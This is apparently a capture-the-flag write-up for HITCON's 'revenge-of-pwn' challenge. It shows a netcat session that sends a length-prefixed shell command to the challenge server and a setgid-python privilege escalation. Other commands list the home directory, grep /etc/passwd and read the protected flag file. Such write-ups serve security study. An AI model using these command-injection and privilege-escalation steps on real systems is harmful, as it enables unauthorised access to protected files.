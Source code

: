 # revenge-of-pwn

> Have you ever thought those challenges you pwned may retaliate someday? nc 3.115.58.219 9427 revenge_of_pwn-255196bb99d75512732a4109f154103b4bc428e6e29e2cdcc69e44aee67ea75f.tar.gz

Categories:
* misc
* pwn

## Solution

```
$ nc 3.115.58.219 9427
ELF size? (MAX: 6144)
131
/home/deploy/secret_python_others_should_never_know -c '__import__("os").setgid(1001);print(open("/home/deploy/flag").read())' 1>&2
[*] Version of pwntools: 4.3.0
[x] Opening connection to 127.0.0.1 on port 1337
[x] Opening connection to 127.0.0.1 on port 1337: Trying 127.0.0.1
[+] Opening connection to 127.0.0.1 on port 1337: Done
hitcon{use_pwntools_to_pwn_pwntools_^ovo^}
```

## Explanation

So basically I think we were supposed to [abuse pwntools `asm` function](https://github.com/FrenchRoomba/ctf-writeup-HITCON-CTF-2020/blob/master/revenge-of-pwn/README.md), but I'm pretty lazy

Since we basiclaly have a shell by sending `len(cmd) + "\n" + cmd` to the socket (it executes non-ELF without shebang as `bash`), I explored a little first:

```
$ ls -lah $HOME
-rwxr-sr-x 1 root exploiter 5.3M Nov 26 05:07 /home/deploy/secret_python_others_should_never_know
-rw-r----- 1 root exploiter 43 Nov 24 14:58 /home/deploy/flag
```

The setgid bit is set on `secret_python_others_should_never_know`, and it's owned by `exploiter`--and so is the flag! 

```
$ cat /etc/passwd | grep exploiter
exploiter:x:1001:1001:,,,:/home/exploiter:/bin/bash
```

So now we just run `secret_python_others_should_never_know` which is basically a copy of the `python3` binary:

```
$ secret_python_others_should_never_know
>>> import os
>>> os.setgid(1001)
>>> os.system('cat /home/deploy/flag')
hitcon{use_pwntools_to_pwn_pwntools_^ovo^}
```

(^ expanded payload)

